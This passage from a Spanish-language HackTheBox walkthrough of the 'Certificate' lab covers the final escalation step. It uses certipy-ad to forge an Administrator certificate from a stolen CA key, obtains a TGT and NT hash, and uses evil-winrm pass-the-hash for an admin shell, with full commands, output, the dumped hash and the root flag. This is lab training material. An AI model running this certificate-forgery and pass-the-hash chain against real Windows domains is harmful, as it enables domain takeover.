 ```shell
ntpdate certificate.htb ; certipy-ad forge -ca-pfx admin.pfx -upn 'Administrator@certificate.htb' -subject 'CN=ADMINISTRATOR,CN=USERS,DC=CERTIFICATE,DC=HTB'
```

Info:

```
2025-10-18 13:21:43.473635 (-0700) +250.439924 +/- 0.017683 certificate.htb 10.10.11.71 s1 no-leap
CLOCK: time stepped by 250.439924
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'administrator_forged.pfx'
[*] Wrote forged certificate and private key to 'administrator_forged.pfx'
```

Una vez creado ese `administrator_forged.pfx` vamos a utilizarlo para autenticarnos y obtener le `TGT` de esta forma:

```shell
ntpdate certificate.htb ; certipy-ad auth -pfx administrator_forged.pfx -dc-ip <IP>
```

Info:

```
2025-10-18 13:23:58.929961 (-0700) +13.533612 +/- 0.026591 certificate.htb 10.10.11.71 s1 no-leap
CLOCK: time stepped by 13.533612
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@certificate.htb'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6
```

Veremos que ha funcionado, vamos a probar dicho `hash` con `wvil-winrm` a ver si podemos realizar un `Pass-The-Hash`.

```shell
evil-winrm -i certificate.htb -u Administrator -H d804304519bf0143c14cbf1c024408c6
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
certificate\administrator
```

Veremos que ha funcionado, por lo que vamos a leer la `flag` del `admin`.

> root.txt

```
acfea9769dbb5084616fa56e12ad1c06
```
